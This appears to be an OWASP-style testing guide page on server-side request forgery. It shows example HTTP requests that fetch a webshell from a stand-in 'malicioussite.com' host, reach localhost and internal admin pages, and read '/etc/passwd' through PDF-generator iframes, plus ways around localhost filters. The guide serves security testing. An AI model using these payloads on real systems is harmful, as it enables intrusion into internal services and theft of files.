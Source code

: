 # Testing for Server-Side Request Forgery

## Summary

Often web applications may have to interact with internal or external resources in order to provide a certain functionality, with the expectation tha only the service providing that functionality will be used, but often such functionality processes user data and if not handled properly it can open the door for certain injection attacks that we call SSRF. A succesfull SSRF attack can grant the attacker access to restricted actions, internal services, internal files within the application or the organization. In some cases it can even lead to RCE.

Some of the main mitigation attacks inlcude IP whitelisting and URL filtering. You can find out more on the
[OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

## How to Test

When testing for SSRF we are trying to trick the server into loading/writing unintended content. The most common test is for local and remote file inclusion, but there is another facet to SSRF, a trust relationship that often arises with server-side request forgery where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls.

Such internal systems often contain sensitive data or functionality.

### Endpoints Which Fetch External/Internal Resources

If we have the following request:

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=about.php
```

We can try the following payloads:

Return the content of an external resource like a webshell.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=https://malicioussite.com/shell.php
```

Use the localhost/loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host than you have enought privileges to direclty access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, is often what makes SSRF into a critical vulnerability.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=http://localhost/admin  // Alternative http://127.0.0.1/admin
```

Fetch a local file

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=file:///etc/passwd
```

### Endpoints which manipulate data (HTTP Post)

If we have the following request:

```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

### PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height=”400">
```

### Common filtering bypass

Some applications block references to `localhost` and `127.0.0.1`, this can be circumvented by:

- Using alternative IP representation such as such as 2130706433, 017700000001, or 127.1 which evaluated to 127.0.0.1
- String obfuscation
- Registering your own domain that resolves to 127.0.0.1

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented.

- Using the `@` character: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

There are already prepared payloads available [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

## Tools

- Burpsuite
- ZAP

## References

- [SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [SSRF](https://portswigger.net/web-security/ssrf)
- [Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
